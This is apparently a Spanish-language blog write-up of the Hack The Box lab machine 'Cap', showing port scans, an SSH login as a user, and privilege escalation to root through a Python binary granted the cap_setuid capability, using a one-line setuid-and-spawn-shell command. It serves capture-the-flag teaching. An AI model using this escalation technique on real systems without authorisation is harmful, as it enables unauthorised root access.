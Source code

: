 ```yaml
---
layout: post
title: Cap
subtitle: Plataforma HTB Dificultad Fácil
cover-img: /assets/img/Cappeq.png
thumbnail-img: /assets/img/Cappeq.png
share-img: /assets/img/Cap.png
author: Elmili72
---
```


## Escaneo general de puertos

```bash
$ sudo nmap -sS -p- --min-rate 5000 -vv -n -Pn 10.10.10.245 -oG allports
Host is up, received user-set (0.11s latency).
Scanned at 2025-06-09 12:12:40 CEST for 14s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
```

## Escaneo específico de puertos

```bash
$ nmap -sCV -p21,22,80 10.10.10.245 -oN target
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-09 12:15 CEST
Nmap scan report for 10.10.10.245 (10.10.10.245)
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento servicio web

```bash
$ whatweb http://10.10.10.245
http://10.10.10.245 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[gunicorn], IP[10.10.10.245], JQuery[2.2.4], Modernizr[2.8.3.min], Script, Title[Security Dashboard], X-UA-Compatible[ie=edge]
```

![image](https://github.com/user-attachments/assets/3306e2e5-ac0c-4a74-933e-955119736955)

![image](https://github.com/user-attachments/assets/be94ffe6-7cd6-4c7f-86ee-4febd54b8d3d)

## Explotación

![image](https://github.com/user-attachments/assets/9f889a37-8467-440b-9d63-ae5753e8bd48)

![image](https://github.com/user-attachments/assets/c30247ef-9e05-433b-abfe-f6827b6bdabe)

### Intrusión

```bash
$ ssh nathan@10.10.10.245
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
nathan@10.10.10.245's password:
Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
1618b0******486488031
```

## Post-Explotación

### Escalada de Privilegios

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# whoami
root
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root@cap:~# cat /root/root.txt
382dab******41ab640d
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!
